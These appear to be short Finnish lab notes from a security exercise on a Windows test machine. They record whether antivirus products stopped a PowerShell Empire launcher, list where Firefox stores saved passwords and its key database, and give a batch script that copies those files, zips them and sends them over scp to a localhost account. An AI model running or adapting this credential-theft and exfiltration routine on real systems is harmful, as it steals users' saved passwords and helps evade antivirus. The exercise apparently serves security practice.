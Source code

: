 # Tommin muistiinpanot:

### HTTPS kuuntelijalla PowerShell Empire

Avira antoi PowerShell Empiren launcher.batin pyörähtää nätisti, mutta yhteys ei auennut.  
Kaspersky pysäytti scriptin samantien.  

### Firefox salasanat
Firefox password location:  
C:\Users\IEUser\AppData\Roaming\Mozilla\Firefox\Profiles\l9ukvzcl.default\logins.json  

Firefox password decryption:  
C:\Users\IEUser\AppData\Roaming\Mozilla\Firefox\Profiles\l9ukvzcl.default\ķey4.db  
  
Key.db numero vaihtelee
  
Salasanojen kopiointi:
```
mkdir C:\salasanat\
powershell Copy-Item -Path C:\Users\IEUser\AppData\Roaming\Mozilla\Firefox\Profiles\*.*\logins.json -Destination C:\salasanat\
powershell Copy-Item -Path C:\Users\IEUser\AppData\Roaming\Mozilla\Firefox\Profiles\*.*\key*.db -Destination C:\salasanat\
pause
powershell Compress-Archive -Path C:\salasanat -DestinationPath C:\salasanat\salasanat.zip
pause
scp C:\salasanat\salasanat.zip restricted@127.0.0.1:/home/restricted/.
pause
```

